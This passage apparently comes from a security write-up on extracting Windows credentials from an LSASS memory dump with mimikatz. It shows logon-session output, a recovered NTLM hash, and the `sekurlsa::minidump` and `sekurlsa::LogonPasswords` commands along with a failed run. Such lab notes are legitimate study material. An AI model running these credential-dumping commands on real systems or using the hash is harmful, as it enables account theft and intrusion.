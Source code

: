 ```
        wdigest :
         * Username : sb_admin
         * Domain   : WIN-07QUV32RIAR
         * Password : (null)
        kerberos :
         * Username : sb_admin
         * Domain   : WIN-07QUV32RIAR
         * Password : (null)
        ssp :
        credman :

...

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : WIN-07QUV32RIAR$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 2/20/2020 10:01:46
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : WIN-07QUV32RIAR$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
         * Username : win-07quv32riar$
         * Domain   : WORKGROUP
         * Password : (null)
        ssp :
        credman :
```

*Output truncated*

The NTLM hash for the user is `b381519f1f1f330c4301c4be59ac0d62`. For some reason, there were a lot of `(null)` entries like the last one.

*Note:* This is the output given if the decryption failed:

```
> .\mimikatz.exe "sekurlsa::minidump out"

  .#####.   mimikatz 2.2.0 (x64) #18362 Jan  1 1970 00:00:00
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # sekurlsa::minidump out
Switch to MINIDUMP : 'out_swapped'

mimikatz # sekurlsa::LogonPasswords
Opening : 'out_swapped' file for minidump...
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000002)
```

